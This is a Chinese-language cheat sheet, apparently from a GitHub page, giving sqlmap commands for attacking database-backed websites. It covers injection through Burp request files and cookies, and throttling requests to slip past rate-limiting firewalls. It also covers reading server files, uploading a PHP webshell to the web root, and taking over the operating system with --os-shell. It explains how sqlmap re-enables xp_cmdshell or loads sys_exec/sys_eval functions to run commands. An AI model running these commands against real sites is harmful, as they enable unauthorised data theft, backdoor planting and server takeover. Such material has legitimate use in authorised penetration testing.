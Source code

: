 **从文件读取HTTP请求，GET和POST都可以**

```
sqlmap -r "burp.txt" -p "username"    #-p 指定存在注入的参数
```

**Cookie注入**

```
sqlmap -u "http://www.vuln.com" --cookie "id=11" --level 2
```

**当防火墙，对请求速度做了限制**

```
sqlmap -u "http://www.vuln.com/post.php?id=1" --delay=10
#在每个HTTP请求之间的延迟10秒
```

## 伪静态注入

```
sqpmap  -u http://victim.com/id/666*.html --dbs  #在html扩展名前加个'*'
```

## 访问文件系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

```
sqlmap -u url --is-dba
#查看是否dba权限,必须为root权限

sqlmap -u url --file-read "C:/Windows/win.ini"        
#读取文件

sqlmap -u url --file-write=D:/shell.php --file-dest=C:/www/shell.php
#上传文件 (本地木马路径:目标网站目录)
```

## 接管操作系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

sqlmap 能够在 **数据库所在服务器的操作系统上运行任意的命令**

```
sqlmap -u "URL" --os-shell    #获取系统交互shell或--os-cmd=id执行系统命令
```

[原理](https://blog.sari3l.com/posts/8dea0d95/) 就是上传一个upload木马后，再上传一个cmd shell；

当 --os-shell 退出后， 会调用后门脚本删除上传文件后，进行自删除。

> 在 MySQL 和 PostgreSQL 中，sqlmap 可以上传一个包含两个用户自定义函数
> 
> 分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件）
> 
> 然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。
> 
> 在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：
> 
> 如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；
> 
> 如果该存储过程不存在，sqlmap 则会重新创建它。
> 
> 当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。